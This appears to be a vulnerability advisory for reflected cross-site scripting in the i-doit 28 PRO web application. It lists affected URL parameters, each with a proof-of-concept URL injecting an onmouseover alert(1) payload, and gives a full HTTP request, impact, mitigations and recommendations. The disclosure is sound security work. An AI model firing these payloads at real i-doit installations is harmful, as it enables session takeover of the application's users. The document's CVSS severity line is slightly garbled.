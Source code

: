 # CVE-2024-?

## Vulnerability Details:

- **CVSS Score:** 6.8 HIGHMEDIUM (CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:U/C:H/I:L/A:L)

- **Affected Component:** [I-DOIT](https://www.i-doit.com) parameters:

    | Parameter                    | Description                                       | URL (PoC)        |
    |------------------------------|---------------------------------------------------|------------|
    | id                           | Identifier parameter                              | /?moduleID=7&id=s3j5b%22onmouseover%3d%22alert(1)%22style%3d%22position%3aabsolute%3bwidth%3a100%25%3bheight%3a100%25%3btop%3a0%3bleft%3a0%3b%22kmc6x&mNavID=2&lang=de |
    | lang                         | Language parameter                                | /?mNavID=2&lang=gui4c%22onmouseover%3d%22alert(1)%22style%3d%22position%3aabsolute%3bwidth%3a100%25%3bheight%3a100%25%3btop%3a0%3bleft%3a0%3b%22ku6le&tenant_id=1  | 
    | mNavID                       | Navigation identifier parameter                   | /?mNavID=aqaal%22onmouseover%3d%22alert(1)%22style%3d%22position%3aabsolute%3bwidth%3a100%25%3bheight%3a100%25%3btop%3a0%3bleft%3a0%3b%22el125&lang=de&tenant_id=1 |
    | name (arbitrarily supplied) | Name of an arbitrarily supplied URL parameter     | /?navMode=&sort=&dir=&id=&navPageStart=&navTemplateDetailView=&template=&useTemplate=&popupReceiver=&_csrf_token=1698.wxfibOhTA0_Y5hIPtKFSbmcrrEAO7zOoiGTUmvtApXU.omW1PKBrZCG0k1RV8uJqNy5Gny1qvwv7-gmV45d30RqbWowurgFJHomqIg&HTTP_GOTO=&login_username=admin&login_password=admin&login_submit=&uo703%22onmouseover%3d%22alert(1)%22style%3d%22position%3aabsolute%3bwidth%3a100%25%3bheight%3a100%25%3btop%3a0%3bleft%3a0%3b%22vnuwwxvu6hf=1 |
    | pID                          | ID parameter                                      | /?moduleID=7&pID=bzon8%22onmouseover%3d%22alert(1)%22style%3d%22position%3aabsolute%3bwidth%3a100%25%3bheight%3a100%25%3btop%3a0%3bleft%3a0%3b%22bsv0h |
    | treeNode                     | Tree node parameter                               | /?moduleID=1021&treeNode=1021360494'%3balert(1)%2f%2f883&pID=type-config |
    | type                         | Type parameter                                    | /?viewMode=1101&type=cehtj%22onmouseover%3d%22alert(1)%22style%3d%22position%3aabsolute%3bwidth%3a100%25%3bheight%3a100%25%3btop%3a0%3bleft%3a0%3b%22g3asdsxian9&view=object&mNavID=2&lang=de&navMode=&sort=&dir=&id=&navPageStart=&navTemplateDetailView=&template=&useTemplate=&popupReceiver=&_csrf_token=&q=dDLqSW&submit_isys_form=&C_VISUALIZATION_OBJ_SELECTION=dDLqSW&C_VISUALIZATION_OBJ_SELECTION__HIDDEN=&C_VISUALIZATION_OBJ_SELECTION__CONFIG=%7B%22type%22%3A%22f_popup%22%2C%22p_strPopupType%22%3A%22browser_object_ng%22%2C%22name%22%3A%22C_VISUALIZATION_OBJ_SELECTION%22%2C%22disableInputGroup%22%3Atrue%2C%22p_bDisableDetach%22%3Atrue%2C%22p_bInfoIconSpacer%22%3A0%2C%22p_strValue%22%3A%22%22%2C%22p_strPlaceholder%22%3A%22Bitte+Objekt+ausw%5Cu00e4hlen%22%2C%22callback_accept%22%3A%22idoit.callbackManager.triggerCallback%28%27visualization-init-explorer%27%29%3B%22%2C%22nowiki%22%3A1%2C%22disablePrimaryConditions%22%3Afalse%2C%22disableSecondaryConditions%22%3Afalse%2C%22disableCustomConditions%22%3Afalse%2C%22use_auth%22%3Afalse%2C%22p_onClick%22%3A%22if+%28%21this.getValue%28%29.blank%28%29%29+%7Bthis.writeAttribute%28%27placeholder%27%2Cthis.readAttribute%28%27data-last-value%27%29%29.setValue%28%27%27%29%3B%7D%22%2C%22p_onBlur%22%3A%22if+%28this.getValue%28%29.blank%28%29%29+%7Bthis.setValue%28this.readAttribute%28%27data-last-value%27%29%29%3B%7D%22%2C%22p_strSuggest%22%3A%22object-browser%22%2C%22p_strSuggestView%22%3A%22C_VISUALIZATION_OBJ_SELECTION__VIEW%22%2C%22p_strSuggestHidden%22%3A%22C_VISUALIZATION_OBJ_SELECTION__HIDDEN%22%2C%22p_strSuggestParameters%22%3A%22parameters%3A+%7B%5C%22typeFilter%5C%22%3Anull%2C%5C%22catFilter%5C%22%3Anull%2C%5C%22typeBlacklist%5C%22%3Anull%2C%5C%22cmdb_filter%5C%22%3Anull%2C%5C%22customFilters%5C%22%3Anull%7D%2CselectCallback%3A+function%28view%2C+li%29+%7Bview.writeAttribute%28%27data-last-value%27%2C+li.readAttribute%28%27title%27%29%29%3Bidoit.callbackManager.triggerCallback%28%27visualization-init-explorer%27%29%3B%7D%22%2C%22checkRight%22%3A%22isys_auth%3A%3AEDIT%22%2C%22p_additional%22%3A%22+data-hidden-field%3D%5C%22C_VISUALIZATION_OBJ_SELECTION__HIDDEN%5C%22+data-last-value%3D%5C%22%5C%22%22%2C%22id%22%3A%22C_VISUALIZATION_OBJ_SELECTION__VIEW%22%7D&SM2__C_VISUALIZATION_OBJ_SELECTION%5Bp_strPopupType%5D=browser_object_ng&SM2__C_VISUALIZATION_OBJ_SELECTION%5Bp_strSelectedID%5D=&SM2__C_VISUALIZATION_OBJ_SELECTION%5Bp_arData%5D=&SM2__C_VISUALIZATION_OBJ_SELECTION%5Bp_strTable%5D=&SM2__C_VISUALIZATION_OBJ_SELECTION%5Bp_strValue%5D=&SM2__C_VISUALIZATION_OBJ_SELECTION%5Bmultiselect%5D=&SM2__C_VISUALIZATION_OBJ_SELECTION%5Btype%5D=f_popup&SM2__C_VISUALIZATION_IT_SERVICE_SELECTION%5Bp_strPopupType%5D=visualization_itservice_selection&SM2__C_VISUALIZATION_IT_SERVICE_SELECTION%5Bp_strSelectedID%5D=&SM2__C_VISUALIZATION_IT_SERVICE_SELECTION%5Bp_arData%5D=&SM2__C_VISUALIZATION_IT_SERVICE_SELECTION%5Bp_strTable%5D=&SM2__C_VISUALIZATION_IT_SERVICE_SELECTION%5Bp_strValue%5D=&SM2__C_VISUALIZATION_IT_SERVICE_SELECTION%5Bmultiselect%5D=&SM2__C_VISUALIZATION_IT_SERVICE_SELECTION%5Btype%5D=f_popup&C_VISUALIZATION_PROFILE=1&SM2__C_VISUALIZATION_PROFILE%5Bp_strPopupType%5D=visualization_profile&SM2__C_VISUALIZATION_PROFILE%5Bp_strSelectedID%5D=&SM2__C_VISUALIZATION_PROFILE%5Bp_arData%5D=&SM2__C_VISUALIZATION_PROFILE%5Bp_strTable%5D=&SM2__C_VISUALIZATION_PROFILE%5Bp_strValue%5D=&SM2__C_VISUALIZATION_PROFILE%5Bmultiselect%5D=&SM2__C_VISUALIZATION_PROFILE%5Btype%5D=tree&SM2__C_VISUALIZATION_EXPORT_BUTTON%5Bp_strPopupType%5D=visualization_export&SM2__C_VISUALIZATION_EXPORT_BUTTON%5Bp_strSelectedID%5D=&SM2__C_VISUALIZATION_EXPORT_BUTTON%5Bp_arData%5D=&SM2__C_VISUALIZATION_EXPORT_BUTTON%5Bp_strTable%5D=&SM2__C_VISUALIZATION_EXPORT_BUTTON%5Bp_strValue%5D=&SM2__C_VISUALIZATION_EXPORT_BUTTON%5Bmultiselect%5D=&SM2__C_VISUALIZATION_EXPORT_BUTTON%5Btype%5D=f_popup&C_VISUALIZATION_SERVICE_FILTER=-1&SM2__C_VISUALIZATION_SERVICE_FILTER%5Bp_strSelectedID%5D=&SM2__C_VISUALIZATION_SERVICE_FILTER%5Bp_strTable%5D=&SM2__C_VISUALIZATION_SERVICE_FILTER%5Bp_arData%5D=a%3A6%3A%7Bi%3A-1%3Bs%3A1%3A%22-%22%3Bi%3A1%3Bs%3A7%3A%22Level+1%22%3Bi%3A2%3Bs%3A7%3A%22Level+2%22%3Bi%3A3%3Bs%3A7%3A%22Level+3%22%3Bi%3A4%3Bs%3A7%3A%22Level+4%22%3Bi%3A5%3Bs%3A7%3A%22Level+5%22%3B%7D&SM2__C_VISUALIZATION_SERVICE_FILTER%5Btype%5D=f_dialog&LogbookCommentary= |
    | view                         | View parameter                                    | /?viewMode=1101&type=tree&view=object38032'%3balert(1)%2f%2f845&mNavID=2&lang=en |
    | index.php (arbitrarily supplied) | Name of an arbitrarily supplied URL parameter for /index.php route | /index.php |
    | multiedit (arbitrarily supplied) | Name of an arbitrarily supplied URL parameter for /multiedit route | /multiedit |
    | search (arbitrarily supplied) | Name of an arbitrarily supplied URL parameter for /search route | /search |
  
- **Vulnerability Type:** Cross-site scripting Reflected (XSS)

- **Impact:** If an attacker can control a script that is executed in the victim's browser, then they can typically fully compromise that user. Amongst other things, the attacker can:
  - Perform any action within the application that the user can perform.
  - View any information that the user is able to view.
  - Modify any information that the user is able to modify.
  - Initiate interactions with other application users, including malicious attacks, that will appear to originate from the initial victim user.

- **Exploitability:** The vulnerability can be exploited by crafting specifically malicious queries and submitting them through the vulnerable parameters.

- **Affected Versions:** Tested only in [I-DOIT](https://www.i-doit.com) 28 PRO

- **Details:** A Reflected Cross-Site Scripting (XSS) vulnerability occurs when user input is not properly sanitized by a web application and is then echoed back to the user's browser without adequate encoding. This allows an attacker to inject and execute malicious scripts within the context of the victim's session.

- **Mitigation:** Preventing cross-site scripting isn't a simple fix that you can turn on or off. Depending on the web application, protection strategies will differ. That said, it's important to consider the following strategies for how to mitigate cross-site scripting.

  - **Whenever possible, prohibit HTML code in inputs.** Preventing users from posting HTML code into form inputs is a straightforward and effective measure.
  - **Validate inputs.** If you're going to accept form inputs, validating the data to ensure it meets specific criteria will be helpful
  - **Secure your cookies.** Setting rules for your web applications defining how cookies are handled can prevent XSS and even block JavaScript from accessing cookies.
  - **Sanitize data.** Similar to validation, sanitizing occurs after data has been posted but before it is executed. Look for online tools like HTMLSanitizer to sanitize HTML code online for XSS vulnerabilities.
  - **Use a web application firewall (WAF).** Rules can be created on a WAF to specifically address XSS by blocking abnormal server requests. A robust WAF should be a key component of your organization's security strategy, as it can also prevent SQL injection attacks, distributed denial-of-service attacks and other common threats.

## Proof of Concept (PoC):

An attacker could craft a malicious request to exploit the vulnerability:

```HTTP Request
GET /?moduleID=7&id=s3j5b%22onmouseover%3d%22alert(1)%22style%3d%22position%3aabsolute%3bwidth%3a100%25%3bheight%3a100%25%3btop%3a0%3bleft%3a0%3b%22kmc6x&mNavID=2&lang=de HTTP/1.1
Host: 192.168.1.46
Accept-Encoding: gzip, deflate, br
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Connection: close
Cache-Control: max-age=0
Cookie: PHPSESSID=3e9a5hs6b6rbcmv77aipbkhddu
Upgrade-Insecure-Requests: 1
Referer: http://192.168.1.46/?moduleID=7&id=5047
Sec-CH-UA: ".Not/A)Brand";v="99", "Google Chrome";v="121", "Chromium";v="121"
Sec-CH-UA-Platform: Windows
Sec-CH-UA-Mobile: ?0
Content-Length: 0
```

![image](https://github.com/offensive-security-pwncat/CVE/blob/main/XSS/img/022024.jpeg?raw=true)

## Recommendations:

- **Patch:** Develop and deploy a patch or update that addresses the XSS Reflected vulnerabilities in the affected parameters.

- **Education:** Provide training and resources to developers on secure coding practices, emphasizing the importance of input validation and preventing XSS Refelcted vulnerabilities.

